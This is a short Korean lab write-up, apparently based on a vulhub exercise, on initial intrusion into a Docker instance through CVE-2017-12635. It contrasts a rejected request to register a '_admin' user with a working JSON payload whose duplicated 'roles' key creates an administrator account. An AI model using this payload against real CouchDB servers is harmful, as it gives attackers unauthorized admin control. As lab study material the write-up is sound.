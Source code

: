 ### 취약점 공격과 도커 인스턴스 초기 침투


- 취약점 1. 관리자 권한 계정 생성 - `CVE-2017-12635`

해당 취약점은 허용되지 않은 공격자가 임의로 관리자 권한의 사용자를 추가할 수 있는 취약점이다.

일반적으로  `_admin` 권한으로 회원가입 시도 시, 권한이 없다고 실패하는 것을 확인할 수 있다. 
![Pasted image 20240728064917](Pasted%20image%2020240728064917.png)

```
{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```


하지만 아래와 같이 이중으로 요청을 보낼 시, 관리자 권한으로의 가입이 성공하는 것을 확인할 수 있다.
![Pasted image 20240728065242](Pasted%20image%2020240728065242.png)

```
{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```
